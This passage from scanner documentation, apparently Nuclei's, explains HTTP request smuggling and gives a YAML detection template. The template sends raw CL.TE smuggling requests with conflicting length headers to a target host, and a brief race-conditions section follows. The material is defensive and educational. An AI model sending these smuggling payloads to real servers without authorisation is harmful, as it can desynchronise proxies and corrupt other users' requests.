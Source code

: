 The most basic example of a HTTP Smuggling vulnerability is CL.TE Smuggling. An example template to detect a CE.TL HTTP Smuggling vulnerability is provided below using the `unsafe: true` attribute for rawhttp based requests.

```yaml
id: CL.TE-http-smuggling

info:
  name: HTTP request smuggling, basic CL.TE vulnerability
  author: pdteam
  severity: info
  lab: https://portswigger.net/web-security/request-smuggling/lab-basic-cl-te

requests:
  - raw:
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Connection: keep-alive
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 6
      Transfer-Encoding: chunked

      0

      G      
    - |+
      POST / HTTP/1.1
      Host: {{Hostname}}
      Connection: keep-alive
      Content-Type: application/x-www-form-urlencoded
      Content-Length: 6
      Transfer-Encoding: chunked

      0

      G

    unsafe: true
    matchers:
      - type: word
        words:
          - 'Unrecognized method GPOST'
```

More examples are available in [template-examples](https://nuclei.projectdiscovery.io/template-examples/http-smuggling/) section for smuggling templates.

#### Race conditions

Race Conditions are another class of bugs not easily automated via traditional tooling. Burp Suite introduced a Gate mechanism to Turbo Intruder where all the bytes for all the requests are sent expect the last one at once which is only sent together for all requests synchronizing the send event.
